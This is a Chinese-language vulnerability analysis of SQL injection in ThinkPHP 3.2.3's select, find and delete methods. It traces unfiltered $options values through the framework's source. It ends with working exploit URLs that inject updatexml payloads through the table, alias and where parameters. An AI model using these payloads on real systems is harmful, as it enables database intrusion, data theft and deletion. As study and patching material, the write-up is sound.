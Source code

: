 # Thinkphp 3.2.3 select&find&delete 注入漏洞

### 一、漏洞简介

### 二、漏洞影响

<= 3.2.3

### 三、复现过程

**漏洞分析**

通过github上的commit 对比其实可以粗略知道，此次更新主要是在ThinkPHP/Library/Think/Model.class.php文件中，其中对于delete，find，select三个函数进行了修改。

delete函数

![](images/15893450059733.png)


select函数

![](images/15893450123328.png)


find函数

![](images/15893450194083.png)


对比三个方法修改的地方都有一个共同点：

把外部传进来的$options，修改为$this->options，同时不再使用$this->_parseOptions对于$options进行表达式分析。

思考是因为$options可控，再经过_parseOptions函数之后产生了sql注入。

**一 select 和 find 函数**

以find函数为例进行分析（select代码类似），该函数可接受一个$options参数，作为查询数据的条件。

当$options为数字或者字符串类型的时候，直接指定当前查询表的主键作为查询字段：


```php
if (is_numeric($options) || is_string($options)) {
            $where[$this->getPk()] = $options;
            $options               = array();
            $options['where']      = $where;
}
```

同时提供了对复合主键的查询，看到判断：


```php
if (is_array($options) && (count($options) > 0) && is_array($pk)) {
            // 根据复合主键查询
            ......
        }
```

要进入复合主键查询代码，需要满足$options为数组同时$pk主键也要为数组，但这个对于表只设置一个主键的时候不成立。

那么就可以使$options为数组，同时找到一个表只有一个主键，就可以绕过两次判断，直接进入_parseOptions进行解析。


```php
if (is_numeric($options) || is_string($options)) {//$options为数组不进入
            $where[$this->getPk()] = $options;
            $options               = array();
            $options['where']      = $where;
        }
        // 根据复合主键查找记录
        $pk = $this->getPk();
        if (is_array($options) && (count($options) > 0) && is_array($pk)) { //$pk不为数组不进入
            ......
        }
        // 总是查找一条记录
        $options['limit'] = 1;
        // 分析表达式
        $options = $this->_parseOptions($options); //解析表达式
        // 判断查询缓存
        .....
        $resultSet = $this->db->select($options); //底层执行
```

之后跟进_parseOptions方法，（分析见代码注释）


```php
if (is_array($options)) { //当$options为数组的时候与$this->options数组进行整合
            $options = array_merge($this->options, $options);
        }

        if (!isset($options['table'])) {//判断是否设置了table 没设置进这里
            // 自动获取表名
            $options['table'] = $this->getTableName();
            $fields           = $this->fields;
        } else {
            // 指定数据表 则重新获取字段列表 但不支持类型检测
            $fields = $this->getDbFields(); //设置了进这里
        }

        // 数据表别名
        if (!empty($options['alias'])) {//判断是否设置了数据表别名
            $options['table'] .= ' ' . $options['alias']; //注意这里，直接拼接了
        }
        // 记录操作的模型名称
        $options['model'] = $this->name;

        // 字段类型验证
        if (isset($options['where']) && is_array($options['where']) && !empty($fields) && !isset($options['join'])) { //让$optison['where']不为数组或没有设置不进这里
            // 对数组查询条件进行字段类型检查
           ......
        }
        // 查询过后清空sql表达式组装 避免影响下次查询
        $this->options = array();
        // 表达式过滤
        $this->_options_filter($options);
        return $options;
```

$options我们可控，那么就可以控制为数组类型，传入$options['table']或$options['alias']等等，只要提层不进行过滤都是可行的。

同时我们可以不设置$options['where']或者设置$options['where']的值为字符串，可绕过字段类型的验证。

可以看到在整个对$options的解析中没有过滤，直接返回，跟进到底层ThinkPHP\Libray\Think\Db\Diver.class.php，找到select方法，继续跟进最后来到parseSql方法，对$options的值进行替换，解析。

因为$options['table']或$options['alias']都是由parseTable函数进行解析，跟进：


```php
if (is_array($tables)) {//为数组进
            // 支持别名定义
          ......
        } elseif (is_string($tables)) {//不为数组进
            $tables = array_map(array($this, 'parseKey'), explode(',', $tables));
        }
        return implode(',', $tables);
```

当我们传入的值不为数组，直接进行解析返回带进查询，没有任何过滤。

同时$options['where']也一样，看到parseWhere函数


```php
$whereStr = '';
        if (is_string($where)) {
            // 直接使用字符串条件
            $whereStr = $where; //直接返回了，没有任何过滤
        } else {
            // 使用数组表达式
           ......
        }
        return empty($whereStr) ? '' : ' WHERE ' . $whereStr;
```

**二 delete函数**

delete函数有些不同，主要是在解析完$options之后，还对$options['where']判断了一下是否为空，需要我们传一下值，使之不为空,从而继续执行删除操作。


```php
......
        // 分析表达式
        $options = $this->_parseOptions($options);
        if (empty($options['where'])) { //注意这里，还判断了一下$options['where']是否为空，为空直接返回，不再执行下面的代码。
            // 如果条件为空 不进行删除操作 除非设置 1=1
            return false;
        }
        if (is_array($options['where']) && isset($options['where'][$pk])) {
            $pkValue = $options['where'][$pk];
        }

        if (false === $this->_before_delete($options)) {
            return false;
        }
        $result = $this->db->delete($options);
        if (false !== $result && is_numeric($result)) {
            $data = array();
            if (isset($pkValue)) {
                $data[$pk] = $pkValue;
            }

            $this->_after_delete($data, $options);
        }
        // 返回删除记录个数
        return $result;
```

### 漏洞复现

针对select() 和find()方法 ,有很多地方可注，这里主要列举三个table，alias，where，更多还请自行跟踪一下parseSql的各个parseXXX方法，目测都是可行的，比如having,group等。


```bash
table：http://url/index.php?m=Home&c=Index&a=test&id[table]=user where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

alias：http://url/index.php?m=Home&c=Index&a=test&id[alias]=where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

where: http://url/index.php?m=Home&c=Index&a=test&id[where]=1%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--
```

![](images/15893451437670.png)


而delete()方法的话同样，这里粗略举三个例子，table,alias,where，但使用table和alias的时候，同时还必须保证where不为空（详细原因后面会说）


```bash
where: http://url/index.php?m=Home&c=Index&a=test&id[where]=1%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

alias: http://url/index.php?m=Home&c=Index&a=test&id[where]=1%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

table: http://url/index.php?m=Home&c=Index&a=test&id[table]=user%20where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--&id[where]=1
```

![](images/15893451678283.png)


参考链接

https://xz.aliyun.com/t/2629#toc-1